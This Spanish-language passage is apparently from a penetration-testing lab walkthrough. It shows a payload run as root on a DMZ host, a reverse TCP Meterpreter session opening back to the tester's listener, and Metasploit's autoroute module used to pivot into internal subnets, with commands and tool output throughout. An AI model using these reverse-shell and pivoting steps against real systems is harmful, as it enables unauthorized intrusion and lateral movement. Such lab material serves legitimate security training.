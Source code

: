 Ejecutar el`shell.elf`Archivo en el sistema de destino:

  Recopilación de información interna

```shell-session
root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```

Si todo sale según lo planeado, atraparemos el Shell Meterpreter usando el Multi/Handler, y luego podemos configurar las rutas.

  Recopilación de información interna

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```

A continuación, podemos configurar el enrutamiento usando el`post/multi/manage/autoroute`módulo.

  Recopilación de información interna

```shell-session
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute 
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> show options 

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, de
                                       fault)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set subnet 172.16.8.0
subnet => 172.16.8.0
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.203.111
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```
